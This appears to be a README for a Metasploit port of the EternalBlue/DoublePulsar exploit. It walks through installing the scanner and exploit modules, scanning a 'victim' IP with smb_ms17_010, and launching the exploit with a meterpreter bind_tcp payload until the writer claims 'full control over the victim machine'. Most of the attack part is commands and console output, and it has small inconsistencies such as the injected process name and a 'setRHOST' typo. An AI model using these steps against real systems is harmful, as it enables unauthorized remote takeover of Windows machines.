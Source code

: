 # Eternalblue-Doublepulsar-Metasploit

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps /usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the Eternal Blue-Doublepulsar.rb with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
register_options([
	OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
	OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
	OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into Microsoft Windows 10

Then we should specify the name of the process to be injected, we have specified here as 'explorer.exe'

Then you should launch msfconsole and use the auxiliary scan module smb_ms17_010.rb.
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services
msf6 > 
~~~

use the auxiliary scan module smb_ms17_010.rb
~~~
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf6 > set RHOSTS IP
msf6 > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf6 > use exploit/windows/smb/eternalblue_doublepulsar
msf6 > set payload windows.x64/meterpreter/bind_tcp
msf6 > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf6 > setRHOST IP
msf6 > set targetarchitecture x64
msf6 > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

*source:
[rapid7](https://github.com/rapid7/metasploit-framework/modules/auxiliary/scanner/smb)
[ElevenPaths](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
